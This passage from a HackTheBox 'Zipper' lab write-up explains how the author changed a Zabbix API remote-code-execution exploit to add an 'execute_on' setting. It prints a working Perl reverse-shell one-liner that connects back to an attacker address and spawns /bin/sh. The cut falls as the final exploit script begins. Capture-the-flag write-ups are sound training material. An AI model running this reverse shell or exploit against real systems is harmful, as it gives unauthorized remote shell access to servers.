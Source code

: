 <br> there's an option called `execute_on` , which has 2 possible values : `0` to execute on zabbix agent , and `1` to execute on zabbix server. We don't have that option included in the exploit so we are using the default option `1` which means we are executing commands on zabbix server. So we will edit the exploit json data and add `"execute_on" : "0"` in those 2 parts :
![](/images/hackthebox/zipper/22.png)
<br>
<br>
![](/images/hackthebox/zipper/23.png)
<br> After that we will run the exploit again and now it will run on the right server , however the shell that we used before didn't work and died immediately because the exploit crashed for some reason , I had to comment out the last line which prints the result : `print cmd_exe["result"]["value"]` , but it didn't fix it , so I tried some other shells and the `perl` one worked :
```
perl -e 'use Socket;$i="10.10.xx.xx";$p=1337;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
<br> Then I used used `python3` pty to get a proper shell , python2 didn't exist on the server
![](/images/hackthebox/zipper/24.png)
<br>
## Final exploit after edits :
```
#!/usr/bin/python
# -*- coding: utf-8 -*-

# Exploit Title: Zabbix RCE with API JSON-RPC
# Date: 06-06-2016
```